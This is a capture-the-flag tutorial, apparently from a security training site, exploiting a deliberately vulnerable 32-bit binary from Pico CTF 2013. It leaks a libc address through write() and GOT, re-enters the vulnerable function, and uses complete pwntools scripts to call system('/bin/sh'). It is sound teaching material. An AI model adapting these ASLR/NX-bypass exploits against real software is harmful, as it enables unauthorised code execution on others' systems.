:orphan:
(linux-rop-exploitation-example)=

# Linux ROP Exploitation Example

Let's analyze a straightforward ROP-style exploit based on the ROP-3 challenge of the 2013 Pico CTF. Download the vulnerable binary from the challenge's [github page](https://github.com/ctfs/write-ups-2013/tree/master/pico-ctf-2013/rop-3). The page contains a brief description of the challenge, but we will analyze it in depth to demonstrate the exemplary exploitation procedure. The binary must be downloaded and renamed to rop3 because its original name is not user-friendly. Let's run checksec on the file to determine what countermeasures we'll need to overcome in order to create a working exploit. The source code is also available on the github page for the binary. We will utilize it as it will save us time and effort in analyzing the binary...

```cpp
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function()  {
	char buf[128];
	read(STDIN_FILENO, buf,256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
    be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}

```

What we know so far is that the `vulnerable()` function contains an obvious overflow. The `be_nice_to_people()` function cannot assist us in this situation.



Let's execute the program within gdb to determine the EIP offset.

```bash
gdb -q ./rop3
```





The offset is confirmed below (notice the `B`s).





We control the EIP. What then?

We possess ASLR and NX, but perhaps we can return to function.

Let's examine the binary to determine which intriguing functions we can invoke.

Note that we cannot simply call libc functions, such as system, due to ASLR, but we can use PLT functions because their addresses will not be randomized.

By entering `gdb` and executing `info functions`, we obtain a list of the PLT functions:

```bash
gdb -q ./rop3
info functions
```



Two useful functions are `read()` and `write()`

They will be used to leak information from the binary.

Contrary to their names, we can write data to an arbitrary location with `read()` and read data from an arbitrary location with `write()`. Indeed, this seems confusing.

[read() man page](https://man7.org/linux/man-pages/man2/read.2.html):

```bash
read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.
```

[write() man page](https://man7.org/linux/man-pages/man2/write.2.html):

```bash
write() writes up to count bytes from the buffer starting at buf to the file referred to by the file descriptor fd.
```

Now, let's perform a return-to-write attack using this information. We'll use `write()` to retrieve the current `read()` address from LIBC.

We will run the program in `gdb`, and then press `Ctrl+C` when the prompt for user data appears.

Then, we will investigate the address indicated by READ.
We can see that it belongs to libc:



Given that all libc addresses are located at a constant offset from the libc base, it follows that all addresses are also located at constant offsets from one another.
Thus, if we now check the address of `system()`, we can determine the offset from `read()` to system by counting the distance.

`read@got` contains read's libc address `0xb7e53b00`

Checking libc directly (p command) reveals `system()` is located at `0xb7db8a0`.



Due to the randomization of libc, these addresses will vary between runs.

But with `write()`, we can leak the current address from the GOT address of `read()`, just as we did with the `gdb x` command.

As in a typical ret2libc attack, we must set up the stack with the return address and arguments, and then call the function:

```cpp
//#include <unistd.h
ssize_t write(int fd, const void *buf, size_t count)

```

- `int fd` (file descriptor) is 1, as stdout is always fd 1 - this is a Linux default value.
- `*buf`, from what we read, will be the `read()` function
  address in the GOT.
- `size` will be `4`, as we need just the 4-byte address.

As `read()` is the vulnerable function, we need not worry about null bytes. `Read()` continues through them.

- Address `0x080483a0` will serve as the `EIP` (write() address).

- The return address; for now, let's set it to `CCCC` so that the program segfaults at the conclusion.

- Following the `fd` argument is `0x00000001`

- The `read()` function's address is `0x0804a000`.
  We utilize read(GOT )'s entry because it is not randomly generated and directly points to libc. The PLT stub simply points to the GOT entry, so it cannot be used in this context.

- The size corresponds to `0x00000004`

Following the execution of the command below, we obtain a return address similar to the libc addresses. `0xb7e*****` is within the libc address space, as we recently calculated some `libc` addresses and know that `0xb7e*****` resides there.

As was the case with the stack canary, we will need to use `pwntools` or a comparable framework to efficiently process the returned bytes.

Let's implement this logic into the skeleton of an exploit. Once more, we will employ `pwntools`. The input we provided to the application is now stored in the leak variable. The binary is then initiated, the input is transmitted, and the four bytes returned by the `write()` function are stored in the variable read addr.

```python
from pwn import *
context(arch="i686", os="linux")
leak = "A"*140 + "\xa0\x83\x04\x08" + "CCCC" + "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00"
exploit = process("./rop3", shell=True)
exploit.sendline(leak)
read_addr = unpack(exploit.recv(4))
print "[+] read is at: " + hex(read_addr)
```

We disregard the warning about the system architecture.
The exploit operates as intended, and subsequent runs result in the display of a different address.
This is caused by ASLR:



It is reasonable that the program segfaults due to the return to `0x43434343` if you run it in `gdb`.

How can we exploit the fact that we already have the address of libc (as we have the address of a function in libc)?

The stack currently contains write arguments because they were not removed. To call another function, such as `read()`, it is necessary to collect ROP gadgets that will clear the stack and set other values there.
Or don't we?



Fortunately, there is a simpler method. Instead of `CCCC`(`0x43434343`), we can simply return to the `vulnerable_function`.

The `vulnerable_function` does not take any arguments, so it does not really care about stack arguments. It will perform the vulnerable read operation again, giving us another opportunity to exploit the vulnerability, but this time we know the addresses of the `libc()` items.

Let's simply add the vulnerable function's address to the exploit:



```python
from pwn import *
context(arch="i686", os="linux")
leak = "A"*140 + "\xa0\x83\x04\x08" + "\x74\x84\x04\x08" + "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00"
exploit = process("./rop3", shell=True)
exploit.sendline(leak)
read_addr = unpack(exploit.recv(4))
print hex(read_addr)
exploit.sendline(leak)
read_addr2 = unpack(exploit.recv(4))
print hex(read_addr2)
```

In its current form, the exploit will print the leaked address twice as evidence that two vulnerable operations were possible (as `vulnerable_function` was called again).



Having confirmed that a second overflow operation is possible, let's attempt to implement the second payload that will execute a ret2system-style attack.

To accomplish this, we must record the addresses of the system and the string `"/bin/sh"` along with their offsets relative to the `read()` address.

We execute the binary using `gdb`, then press `Ctrl+C` and enter several commands to calculate the distances (offsets) between `libc` items. Please note that these offsets may differ if you complete the example on a different OS version:





The offsets are placed in the variables that will be used to calculate the `system()` call prerequisites.

```python
system_addr = read_addr - 0x9ad60
binsh_addr = read_addr + 0x85f0b
exit_addr = read_addr - 0xa7130
```

As you are already familiar with the ret2system attack, you should recognize that this is essentially the same thing, except that we use dynamically calculated addresses instead of hardcoded ones.

After calling `system()` with the address of the `"/bin/sh"` string as the argument, we simply return to `exit()`.

As you can see, the exploit works as expected:



The full source code:

```python
from pwn import *
context(arch="i686", os="linux")
leak = "A"*140 + "\xa0\x83\x04\x08" + "\x74\x84\x04\x08" + "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00"
exploit = process("./rop3", shell=True)
exploit.sendline(leak)
read_addr = unpack(exploit.recv(4))
print "[+] read is at: " + hex(read_addr)
system_addr = read_addr - 0x9ad60
binsh_addr = read_addr + 0x85f0b
exit_addr = read_addr - 0xa7130
print "[+] system is at: " + hex(system_addr)
print "[+] /bin/sh is at: " + hex(binsh_addr)
shell = "A"*140 + pack(system_addr) + pack(exit_addr) + pack(binsh_addr)
exploit.sendline(shell)
exploit.interactive()
```

This is an illustration of how ROP operates. We utilized program-provided code fragments in order to construct a staged exploit.

We were able to simply return to the vulnerable function without having to search for and insert individual gadgets into the stack.

## References

[Pico CTF 2013 ROP 3](https://github.com/ctfs/write-ups-2013/tree/master/pico-ctf-2013/rop-3)

[read() man page](https://man7.org/linux/man-pages/man2/read.2.html)

[write() man page](https://man7.org/linux/man-pages/man2/write.2.html):

[The Stack Frame](http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch10s07.html)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
